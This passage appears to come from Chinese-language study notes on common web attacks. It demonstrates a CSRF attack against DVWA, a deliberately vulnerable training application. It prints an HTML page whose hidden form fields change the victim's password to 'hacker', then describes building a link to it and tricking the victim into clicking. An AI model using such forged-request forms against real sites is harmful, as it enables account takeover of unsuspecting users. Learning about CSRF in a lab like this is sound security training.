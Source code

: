    ![image-20210409113736956](media/19.1.常见攻击/image-20210409113736956.png)

   csrf.html

   ```html
   <html>
       <body>
           <form action="http://10.240.138.212/DVWA-1.9/vulnerabilities/csrf/">
               <input type="hidden" name="password_new" value="hacker"/>
               <input type="hidden" name="password_conf" value="hacker"/>
               <input type="hidden" name="Change" value="Change"/>
               <input type="submit" value="Click Me"/>
           </form>
       </body>
   </html>
   ```

3. 构造链接http://127.0.0.1/csrf.html

4. 诱骗受害者点击
   ![image-20210409141244516](media/19.1.常见攻击/image-20210409141244516.png)
